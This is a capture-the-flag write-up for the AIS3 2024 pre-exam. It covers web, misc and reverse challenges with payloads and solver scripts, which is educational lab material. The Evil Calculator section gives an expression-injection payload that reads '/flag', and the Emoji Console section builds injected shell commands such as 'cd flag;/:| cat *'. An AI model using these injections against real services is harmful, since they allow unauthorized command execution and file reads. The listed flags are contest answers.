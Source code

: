 # AIS3 2024 Pre-Exam Writeup

## Web

### Evil Calculator 

後端只有擋空格與底線使用open function即可bypass

```bash
curl --header "Content-Type: application/json" \
  --request POST \
  --data "@payload" \
  http://chals1.ais3.org:5001/calculate
```

payload
```json
{
    "expression": "open('/flag').read()"
}
```
flag: `AIS3{7RiANG13_5NAK3_I5_50_3Vi1}`

## Misc

### Three Dimensional Secret 

pcapng檔後段有給3DP用的Marlin G-code
丟給Cura或Online G-code Viewer會得到如下圖之結果

![image](./decompile.png)
flag: `AIS3{b4d1y_tun3d_PriN73r}`

### Emoji Console 

每一個emoji對應一組符號 利用🐱 ⭐可組合出`cat *`將後端原始碼印出
搭配對照表利用💿 🚩😓😑 🐱 ⭐湊成`cd flag;/:| cat *`輸出`flag-printer.py`

```py
#flag-printer.py

print(open('/flag','r').read())
```

將後半段替換成🐍 ⭐(`cd flag;/:| python *`) 🉐 flag
flag: `AIS3{🫵🪡🉐🤙🤙🤙👉👉🚩👈👈}`

## Reverse

### The Long Print

依照decompile的結果去除delay的部分照寫一遍即可解出flag

![image](./gcode.png)

```python
secret = b'\x46\x41\x4b\x45\x0b\x00\x00\x00\x7b\x68\x6f\x6f\x0a\x00\x00\x00\x72\x61\x79\x5f\x02\x00\x00\x00\x73\x74\x72\x69\x08\x00\x00\x00\x6e\x67\x73\x5f\x06\x00\x00\x00\x69\x73\x5f\x61\x05\x00\x00\x00\x6c\x77\x61\x79\x07\x00\x00\x00\x73\x5f\x61\x6e\x04\x00\x00\x00\x5f\x75\x73\x65\x09\x00\x00\x00\x66\x75\x6c\x5f\x00\x00\x00\x00\x63\x6f\x6d\x6d\x01\x00\x00\x00\x61\x6e\x7a\x7d\x03\x00\x00\x00'

key = b'\x01\x10\x01\x3a\x0d\x1b\x4c\x4c\x2d\x00\x0b\x3a\x40\x4f\x45\x00\x1a\x32\x04\x31\x1d\x16\x2d\x3e\x31\x0a\x12\x2c\x03\x11\x3e\x0d\x2c\x00\x1a\x0c\x32\x14\x1d\x04\x00\x31\x00\x1a\x07\x08\x18'

secret_list = []
key_list = []

for i in range(0, len(secret), 4):
    secret_list.append(int.from_bytes(secret[i:i+4], "little"))
for i in range(0, len(key), 4):
    key_list.append(int.from_bytes(key[i:i+4], "little"))

flag = ""

mask = (1 << 8) - 1

for i in range(0, 24, 2):
    chunk = key_list[secret_list[i+1]] ^ secret_list[i]
    for j in range(4):
        flag += chr((chunk >> (j * 8)) & mask)
print(flag)
```

flag: `AISE{You_are_the_master_of_time_management!!!!?}`

### 火拳のエース 

輸入字串在經過`xor_strings` function後讓每個buffer的字元用以下`complex_function`內的運算進行處理後再與設定之密文進行比較

![image](https://hackmd.io/_uploads/BJG5pGMV0.png)

可利用z3求解如下所示

```python
from z3 import *

index = []
index.append([i for i in range(8)])
index.append([i + 0x20 for i in range(8)])
index.append([i + 0x40 for i in range(8)])
index.append([i + 0x60 for i in range(8)])

key = []
key.append(b'\x0e\x0d\x7d\x06\x0f\x17\x76\x04')
key.append(b'\x6d\x00\x1b\x7c\x6c\x13\x62\x11')
key.append(b'\x1e\x7e\x06\x13\x07\x66\x0e\x71')
key.append(b'\x17\x14\x1d\x70\x79\x67\x74\x33')

secret = []
secret.append("DHLIYJEG")
secret.append("MZRERYND")
secret.append("RUYODBAH")
secret.append("BKEMPBRE")

for ind, k, sec in zip(index, key, secret):
    result = []
    for i, c in enumerate(sec):
        x = Int("x")
        s = Solver()
        s.add(x > 0x40, x < 0x5b)
        offset = ord(c) - 0x41
        ivar = ind[i] % 3 + 3
        if ind[i] % 3 == 0:
            s.add((((x - 0x41 + ind[i] * 0x11) % 0x1a) * ivar + 7) % \
                  0x1a == offset)
        elif ind[i] % 3 == 1:
            s.add((ivar * 2 + ((x - 0x41 + ind[i] * 0x11) % 0x1a)) % \
                  0x1a == offset)
        elif ind[i] % 3 == 2:
            s.add(((((x - 0x41 + ind[i] * 0x11) % 0x1a) - ivar) + 0x1a) % \
                  0x1a == offset)
        s.check()
        m = s.model()
        result.append(m[x].as_long())
        # print(m[x].as_long())
    
    for i, r in enumerate(result):
        print(chr(k[i] ^ r), end="")
print()

```

flag: `AIS3{G0D_D4MN_4N9R_15_5UP3R_P0W3RFU1!!!}`

<style>
code {
  white-space : pre-wrap !important;
}
</style>
